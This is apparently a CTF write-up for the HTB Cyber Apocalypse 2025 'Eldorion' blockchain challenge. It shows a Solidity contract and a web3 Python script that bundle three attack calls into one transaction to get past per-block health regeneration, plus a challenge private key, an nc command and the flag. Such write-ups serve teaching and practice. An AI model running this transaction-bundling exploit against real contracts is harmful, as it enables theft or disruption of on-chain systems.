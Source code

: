 ```yaml
---
title: CTF Writeup ~ Blockchain Eldorian // HTBCyberApocalypse2025
date: 2025-03-27
description: The main vulnerability lies in the health regeneration mechanism. While health resets each block, we can execute multiple attacks within a single transaction (same block) to bypass this regeneration.
image: images/htb/blockchain_eldorion_writeup_hero.png
imageAltAttribute: Blockchain Eldorian writeup
tags:
- ctf
- HTBCyberApocalypse2025
- writeups
- blockchain
---
```



# CHALLENGE NAME: Eldorion

## Description:
Welcome to the realms of Eldoria, adventurer. You've found yourself trapped in this mysterious digital domain, and the only way to escape is by overcoming the trials laid before you. But your journey has barely begun, and already an overwhelming obstacle stands in your path. Before you can even reach the nearest city, seeking allies and information, you must face Eldorion, a colossal beast with terrifying regenerative powers. This creature, known for its "eternal resilience" guards the only passage forward. It's clear: you must defeat Eldorion to continue your quest.

**Points:** 950  
**Difficulty:** Very Easy
**Category:** Blockchain

---

## Solution Walkthrough

### Understanding the Challenge
The challenge involves defeating Eldorion, a smart contract with regenerative health properties. The key aspects are:
1. Eldorion has 300 health points
2. Health regenerates at the start of each block
3. We need to deal enough damage to defeat it before regeneration

### The Vulnerability
The main vulnerability lies in the health regeneration mechanism. While health resets each block, we can execute multiple attacks within a single transaction (same block) to bypass this regeneration.

### Exploitation Steps

1. **Create Attack Contract**: We create a smart contract that bundles multiple attack calls into a single transaction:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

interface IEldorion {
    function attack(uint256 damage) external;
}

contract Attack {
    function exploit(address eldorionAddress) external {
        IEldorion eldorion = IEldorion(eldorionAddress);
        eldorion.attack(100); // First attack
        eldorion.attack(100); // Second attack
        eldorion.attack(100); // Third attack
    }
}
```

2. **Deploy and Execute**: Create a Python script to deploy the attack contract and execute the exploit:

```python
from web3 import Web3
from eth_account import Account
from solcx import compile_source, install_solc

# Install and set solc version
install_solc('0.8.28')

# Connect to the RPC endpoint
w3 = Web3(Web3.HTTPProvider('http://94.237.57.187:45606'))

# Account setup
private_key = '0x927caa97e8b93ef4d1c30551c15a48b700be7b9fec72e41522a1279ee11ee93a'
account = Account.from_key(private_key)
target_address = '0x0B105bAbbaf390bB5eA5b6e9A2eB27019592b142'

print(f"Account address: {account.address}")
print(f"Target contract: {target_address}")

# Update contract source with explicit interface separation
contract_source = '''
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

interface IEldorion {
    function attack(uint256 damage) external;
}

contract Attack {
    function exploit(address eldorionAddress) external {
        IEldorion eldorion = IEldorion(eldorionAddress);
        eldorion.attack(100);
        eldorion.attack(100);
        eldorion.attack(100);
    }
}
'''

# Compile contract
compiled = compile_source(
    contract_source,
    output_values=['abi', 'bin'],
    solc_version='0.8.28',
    base_path='.'
)

# Get contract interface (focusing on Attack contract)
for key, value in compiled.items():
    if ':Attack' in key:  # Find the Attack contract specifically
        contract_interface = value
        break

abi = contract_interface['abi']
bytecode = contract_interface['bin']

print("Contract ABI:", abi)  # Debug print to verify

# Create and deploy contract
contract = w3.eth.contract(abi=abi, bytecode=bytecode)
nonce = w3.eth.get_transaction_count(account.address)

deploy_tx = contract.constructor().build_transaction({
    'from': account.address,
    'nonce': nonce,
    'gas': 2000000,
    'gasPrice': w3.eth.gas_price
})

signed_tx = w3.eth.account.sign_transaction(deploy_tx, private_key)
tx_hash = w3.eth.send_raw_transaction(signed_tx.raw_transaction)
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)

contract_address = tx_receipt.contractAddress
print(f"Attack contract deployed at: {contract_address}")

# Create contract instance
attack_contract = w3.eth.contract(address=contract_address, abi=abi)

# Execute exploit
nonce = w3.eth.get_transaction_count(account.address)
exploit_tx = attack_contract.functions.exploit(target_address).build_transaction({
    'from': account.address,
    'nonce': nonce,
    'gas': 200000,
    'gasPrice': w3.eth.gas_price
})

signed_tx = w3.eth.account.sign_transaction(exploit_tx, private_key)
tx_hash = w3.eth.send_raw_transaction(signed_tx.raw_transaction)
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)

print("Exploit transaction sent:", tx_hash.hex())
print("Transaction status:", "Success" if tx_receipt.status == 1 else "Failed")
```

3. **Get the Flag**: After successfully executing the exploit, connect to the challenge server to retrieve the flag:
```zsh
nc 94.237.57.187 37328
```

## Flag

![Flag](/blog/images/htb/blockchain_eldorion_writeup_flag.png)

```zsh
HTB{w0w_tr1pl3_hit_c0mbo_ggs_y0u_defe4ted_Eld0r10n}
```

## Key Takeaways
1. Smart contract state changes within the same transaction occur before block-level effects
2. Bundling multiple attacks in one transaction bypassed the regeneration mechanism
3. Understanding blockchain transaction atomicity is crucial for smart contract security